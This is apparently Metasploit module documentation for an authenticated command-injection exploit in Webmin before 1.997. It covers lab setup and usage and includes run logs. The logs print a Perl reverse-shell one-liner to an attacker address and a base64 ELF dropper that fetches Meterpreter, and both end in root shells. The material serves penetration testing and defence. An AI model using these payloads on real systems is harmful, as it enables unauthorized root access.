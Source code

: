 ## Vulnerable Application

This module exploits an arbitrary command injection in Webmin versions prior to
1.997.

Webmin uses the OS package manager (`apt`, `yum`, etc.) to perform package
updates and installation. Due to a lack of input sanitization, it is possible to
inject an arbitrary command that will be concatenated to the package manager call.

This exploit requires authentication and the account must have access to the
Software Package Updates module.

## Installation

### Ubuntu
- Download a vulnerable version: http://prdownloads.sourceforge.net/webadmin/webmin_1.996_all.deb
- Install it along with its dependencies (`libio-pty-perl` required when installing on Ubuntu 20.04)
```
apt-get install libauthen-pam-perl libio-pty-perl
dpkg -i ./webmin_1.996_all.deb
```

## Setup
- Go to `https://<target IP>:10000/`
- Login as `root` with the OS password
- Create a new user:
  `Webmin > Webmin Users > Create a new privileged user > enter the username and password > click Create`
- Setup permissions
  `Click on the username > Available Webmin modules > select "Software Package Updates" in the System module list > Save`

## Verification Steps
1. Install and setup the application
1. Start msfconsole
1. Do: `use exploit/linux/http/webmin_package_updates_rce`
1. Do: `run lhost=<local IP> rhosts=<target IP> username=<username> password=<user password>`
1. You should get a shell.

## Options

### TARGETURI

Set this to the Webmin base path. The default is `/`.

### USERNAME

The account username to use.

### PASSWORD

The account password.

## Scenarios

### Webmin 1.996 on Ubuntu 18.04
- Target 0 (`Unix In-Memory`)
```
msf6 exploit(linux/http/webmin_package_updates_rce) > run lhost=192.168.0.2 verbose=true rhosts=192.168.0.23 username=msfuser password=123456

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.0.2:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Webmin 1.996 detected
[+] Webmin 1.996 is a supported target
[+] The target appears to be vulnerable.
[*] Attempting login
[+] Logged in!
[*] Sending payload
[*] Command shell session 4 opened (192.168.0.2:4444 -> 192.168.0.23:51860) at 2022-08-03 11:26:01 +0200

id
uid=0(root) gid=0(root) groups=0(root)

cat /etc/issue
Ubuntu 18.04.6 LTS \n \l
```

- Target 1 (`Linux Dropper`)
```
msf6 exploit(linux/http/webmin_package_updates_rce) > run lhost=192.168.0.2 verbose=true rhosts=192.168.0.23 username=msfuser password=123456

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Webmin 1.996 detected
[+] Webmin 1.996 is a supported target
[+] The target appears to be vulnerable.
[*] Attempting login
[+] Logged in!
[*] Sending payload
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXMCokAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/abOFM.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/IBkCa' < '/tmp/abOFM.b64' ; chmod +x '/tmp/IBkCa' ; '/tmp/IBkCa' ; rm -f '/tmp/IBkCa' ; rm -f '/tmp/abOFM.b64'"]
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3020772 bytes) to 192.168.0.23
[*] Meterpreter session 5 opened (192.168.0.2:4444 -> 192.168.0.23:51870) at 2022-08-03 11:26:51 +0200
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.0.23
OS           : Ubuntu 18.04 (Linux 5.4.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
